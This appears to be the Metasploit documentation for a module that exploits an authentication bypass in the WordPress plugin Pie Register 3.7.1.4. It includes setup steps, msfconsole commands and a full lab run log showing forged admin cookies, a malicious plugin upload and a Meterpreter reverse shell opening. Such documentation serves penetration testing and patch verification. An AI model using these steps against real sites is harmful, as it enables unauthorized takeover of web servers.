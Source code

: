 ## Vulnerable Application

Download [pie-register.3.7.1.4.zip](https://downloads.wordpress.org/plugin/pie-register.3.7.1.4.zip).
Install it, and activiate it.  No additional configuration is required.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/unix/webapp/wp_pie_register_bypass_rce`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should get a shell.

## Options

### USERID

The `USERID` of a valid user that should have a cookie generated for.  Should be an admin user.  Defaults to `1`.

## Scenarios

### Wordpress 5.4.4 with Pie Register 3.7.1.4

```
[*] Processing pie_register.rb for ERB directives.
resource (pie_register.rb)> use wp_pie_register_bypass_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/unix/webapp/wp_pie_register_bypass_rce  2021-10-08       excellent  Yes    WordPress Plugin Pie Register Auth Bypass to RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/wp_pie_register_bypass_rce

[*] Using exploit/unix/webapp/wp_pie_register_bypass_rce
resource (pie_register.rb)> set rhosts 192.168.2.144
rhosts => 192.168.2.144
resource (pie_register.rb)> set lhost 192.168.2.199
lhost => 192.168.2.199
resource (pie_register.rb)> set verbose true
verbose => true
resource (pie_register.rb)> run
[*] Started reverse TCP handler on 192.168.2.199:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/pie-register/readme.txt
[*] Found version 3.7.1.4 in the plugin
[+] The target appears to be vulnerable.
[*] Bypassing Authentiation
[*] Found cookie: wordpress_d2959e58288b6133e71de74309fcabfb=admin%7C1634151373%7C5hPhXSogmfTkj7p0WsuFUNe8moVYT6z8ZTcFLffuCVE%7Cac034a6841edfa4d49e5ab75cb37b69f52a8a92bcf9ad335bd4ad77d287b5349
[*] Found cookie: wordpress_d2959e58288b6133e71de74309fcabfb=admin%7C1634151373%7C5hPhXSogmfTkj7p0WsuFUNe8moVYT6z8ZTcFLffuCVE%7Cac034a6841edfa4d49e5ab75cb37b69f52a8a92bcf9ad335bd4ad77d287b5349
[*] Found cookie: wordpress_logged_in_d2959e58288b6133e71de74309fcabfb=admin%7C1634151373%7C5hPhXSogmfTkj7p0WsuFUNe8moVYT6z8ZTcFLffuCVE%7C3f79f2326314d81da1e4fd4dd8b29a30a1666c8b6378ca719377cf0fd4e6dfff
[*] Preparing payload...
[*] Uploading payload...
[*] Acquired a plugin upload nonce: 04f6142d66
[*] Uploaded plugin iQujVpTJNo
[*] Executing the payload at /wp-content/plugins/iQujVpTJNo/pZtgbKCrHr.php...
[*] Sending stage (39282 bytes) to 192.168.2.144
[+] Deleted pZtgbKCrHr.php
[+] Deleted iQujVpTJNo.php
[+] Deleted ../iQujVpTJNo
[*] Meterpreter session 1 opened (192.168.2.199:4444 -> 192.168.2.144:51748 ) at 2021-10-11 15:16:27 -0400

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : wordpress2004
OS          : Linux wordpress2004 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64
Meterpreter : php/linux
```
